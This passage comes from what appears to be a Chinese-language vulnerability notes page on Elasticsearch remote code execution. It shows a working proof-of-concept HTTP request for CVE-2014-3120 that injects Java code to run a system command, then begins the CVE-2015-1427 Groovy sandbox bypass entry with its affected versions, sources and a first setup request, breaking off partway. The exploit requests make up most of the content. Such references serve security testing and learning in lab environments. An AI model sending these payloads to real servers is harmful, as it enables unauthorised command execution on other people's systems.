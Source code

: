     {
    "name": "test"
    }
    ```

    然后,执行任意代码:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
        "filtered": {
            "query": {
            "match_all": {
            }
            }
        }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }
    ```

**CVE-2015-1427 Groovy 沙盒绕过 && 代码执行漏洞**
- 简介

    CVE-2014-3120 后，ElasticSearch 默认的动态脚本语言换成了 Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。

- 影响版本
    - ElasticSearch < 1 .3.7
    - ElasticSearch 1.4.0 ~ 1.4.2

- 文章
    - [Remote Code Execution in Elasticsearch - CVE-2015-1427](https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/)

- POC | Payload | exp

    来源: [ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞 (CVE-2015-1427) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/)

    由于查询时至少要求 es 中有一条数据,所以发送如下数据包,增加一个数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25
